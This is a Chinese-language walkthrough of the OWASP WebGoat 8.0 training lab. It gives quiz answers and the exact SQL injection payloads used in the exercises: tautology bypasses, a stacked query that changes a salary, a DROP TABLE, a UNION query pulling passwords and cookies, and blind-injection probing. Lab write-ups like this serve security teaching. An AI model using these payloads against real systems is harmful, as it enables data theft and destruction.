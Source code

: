 # Webgoat 8.0 writeup

## 通用部分
### HTTP Basics
这部分内容旨在介绍HTTP协议的基本内容，如何工作。

需要掌握的关键是：
- 客户端访问服务器时发送请求和获得响应的实质
- Get request
- Post request
- User-Agent
- Accept

在练习中，可以通过查看源码、打开开发者模式界面查看请求信息得到答案。

### HTTP Proxies

这部分介绍了使用代理，截获 web客户端与服务器之间的通信流量，对于部分内容进行修改的过程。

Proxies的功能很丰富，善加应用可以完成很多安全功能。

常用的Web代理：
- Burpsuite
- ZAP
- ...

课程中重点介绍了 Owasp ZAP 的安装使用，虽然很多人习惯使用Burpsuite，但ZAP是开源免费的，而且功能也很齐全。

Owasp ZAP 的代理设置在菜单 Tools-Options-Local Proxy 中设置。

Firefox 浏览器的代理设置在其高级设置中；Chrome浏览器的代理设置现在需要设置本地代理，麻烦一些。

设置完毕后，需要验证代理是否正常工作，即验证网页访问能被代理正常拦截，且能手动放行。

为了能够聚焦客户端到服务器的访问，访问页面中自己访问服务器的行为可以不关注，通过在代理中设置"exclude from"，不再阻止和观察这些流量，有助于我们集中注意力。例如，我们可以在 exclude from.. 窗口中增加设置：

```
http://localhost:8080/WebGoat/service/.*
http://localhost:8080/WebGoat/.*.lesson.lesson
```

题目不难，要注意大小写。

### CIA triad

CIA 原则是一个信息安全模型。这3个原则考虑了最为关键的信息安全嘴贱和所有系统都应该保护的方面。

1. How could an intruder harm the security goal of confidentiality?选c

Solution 1: By deleting all the databases.
Solution 2: By stealing a database where general configuration information for the system is stored.
Solution 3: By stealing a database where names and emails are stored and uploading it to a website.
Solution 4: Confidentiality can't be harmed by an intruder.

2. How could an intruder harm the security goal of integrity?选a

Solution 1: By changing the names and emails of one or more users stored in a database.
Solution 2: By listening to incoming and outgoing network traffic.
Solution 3: By bypassing authentication mechanisms that are in place to manage database access.
Solution 4: Integrity can only be harmed when the intruder has physical access to the database storage.
3. How could an intruder harm the security goal of availability?选d

Solution 1: By exploiting bugs in the systems software to bypass authentication mechanisms for databases.
Solution 2: By redirecting emails with sensitive data to other individuals.
Solution 3: Availability can only be harmed by unplugging the power supply of the storage devices.
Solution 4: By launching a denial of service attack on the servers.
4. What happens if at least one of the CIA security goals is harmed?选b

Solution 1: A system can be considered safe until all the goals are harmed. Harming one goal has no effect on the systems security.
Solution 2: The systems security is compromised even if only one goal is harmed.
Solution 3: It's not that bad when an attacker reads or changes data, at least some data is still available, hence only when the goal of availability is harmed the security of the system is compromised.
Solution 4: It shouldn't be a problem if an attacker changes data or makes it unavailable, but reading sensitive data is not tolerable. Theres only a problem when confidentiality is harmed.

### Google chrome 开发者工具

console 可以运行JavaScript本地脚本。查看页面内容和其他信息。‘undifined'表示你调用的JavaScript函数没有返回任何东西。


打开console ，键入```webgoat.customjs.phoneHome()```，调用页面已加载的脚本函数，可以得到一个输出，把输出中的数字复制出来即可。

source 面板可以看源代码

network 面板可以看网络通信过程。

在network中观察form表单数据，就能得到答案。

## 注入缺陷

### sql注入-介绍

第一题，Try to retrieve the department of the employee Bob Franco.，键入sql语句：```select department from employees where first_name='Bob' and last_name='Franco'```

第二题，Try to change the department of Tobi Barnett to 'Sales'. 键入sql语句：```UPDATE employees SET department='Sales' where first_name='Tobi' and last_name='Barnett'```

第三题，try to modify the scheme by adding the column "phone" (varchar(20)) to the table "employees". :键入下列语句：
```ALTER TABLE employees ADD phone varchar(20);```


第4题，Try to grant the usergroup "UnauthorizedUser" the right to alter tables: 输入下列语句：```GRANT alter table TO UnauthorizedUser```


#### sql注入

sql注入会导致：
- 数据库中的敏感数据被读取和改动
- 数据库管理员权限操作
  - 关闭数据库
  - 关闭审计
  - 清除表和记录
  - 增加用户
- 恢复戈丁文件的内容
- 发现OS问题命令

第9题 try to retrieve all the users from the users table。
选```'```和```'1'='1```
。

#### Numeric SQL

第10题 Using the two Input Fields below, try to retrieve all the date from the users table.

两个输入框，分别键入：
- ```1```
- ``` 1 or '1'='1'```

数字型sql注入，特点就是录入的是数字，不需要加包含字符串的引号。

#### 字符型注入

字符型注入需要考虑引号了。

第11题，分别输入：
- 1' or '1'='1
- 1

#### 查询链

SQL 查询链就是一个跟在另一个查询后面。你可以使用标记查询结束的分号```;```这一元字符，它允许在一行中开始一个新的查询。
第一空输入Smith

第二空可以先用 ```3SL99A' ; select *  from employees where '1'='1``` 查一下表内情况。 然后再输入下列语句：


```3SL99A' ;UPDATE employees SET SALARY=99999 where LAST_NAME='Smith```


#### 破坏可用性

使用SQL注入的方法破坏机密性、完整性，也可以破坏可用性。

例如：
- 修改密码或用户名
- 取消某个用户的访问权限
- 删除部分或全部数据

第13题，To delete access_log table completely before anyone notices.

输入框中键入```1 ; select * from access_log```，提交后发现查询成功，但没有数据。

再次输入下列语句：```'; DROP TABLE access_log ;--```

### 高级 SQL 注入

- 结合型技术
- 盲注

题目6.a 键入命令```' OR '1'='1';  select * from user_system_data --```

也可以使用union语句完成：```' or 1=1  union select userid, user_name, password,cookie,'1','1',1 from user_system_data -- ```


题目6.b ```passW0rD```


题目"Can you login as Tom?"。这个题先注册一个用户（例如leo/123456)。

- 尝试正确登录leo/123456，然后会收到提示“Try To login as Tom!”
- 尝试错误Tom/123456，会反馈“No results matched. Try Again.”

可以看到查询正确与错误会有两种不同的反馈，但不会有更多的输出。

```leo' union select 1 or '1'='1```

```123456' or '1'='1```

不行，substring(database_version(),1,1) = 5


username_reg=leo&email_reg=123%40111.COM&password_reg=123&confirm_password_reg=123